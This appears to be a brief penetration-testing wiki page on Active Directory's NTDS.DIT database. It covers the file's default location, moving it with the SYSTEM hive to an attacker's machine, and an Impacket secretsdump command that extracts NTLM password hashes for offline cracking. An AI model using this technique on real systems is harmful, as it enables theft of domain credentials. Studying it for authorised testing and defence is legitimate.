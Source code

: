# NTDS Tom Foolery

## Introduction

NTDS, specifically the NTDS.DIT file is not just a file within Active Directory; it is the core of the entire infrustructure. It serves as a centralized repository for all the domain’s objects and their associated information.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## NTDS.DIT Location

The NTDS.DIT file is located typically at: `C:\Windows\NTDS\Ntds.dit`. Though Administrators can specify alternate locations on setup.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Extracting Password Hashes

Once we have located NTDS.DIT & SYSTEM, we can exfiltrate the file back to our host and crack if offline.&#x20;

### Impacket-Secretsdump

```bash
kali@kali$ impacket-secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

## The only thing left to do is:

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
